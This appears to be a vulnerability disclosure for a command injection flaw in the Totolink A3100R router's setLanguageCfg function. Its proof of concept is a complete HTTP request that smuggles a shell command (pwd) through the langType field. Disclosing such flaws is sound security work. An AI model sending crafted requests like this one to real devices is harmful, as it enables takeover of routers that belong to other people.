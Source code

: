 ## Totolink A3100R command injection

### Overview

* Vendor: TOTOLINK

* Product: Totolink A3100R
* Version: V4.1.2cu.5247_B20211129

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20220412/af5667441aa454891372a0823608aad1.rar

### Vulnerability details

Totolink A3100R V4.1.2cu.5247_B20211129 was found to contain a command injection vulnerability in the `setLanguageCfg` function via the `langType` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 131
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl": "setting/setLanguageCfg",
    "langType": "1;pwd;"
}
```


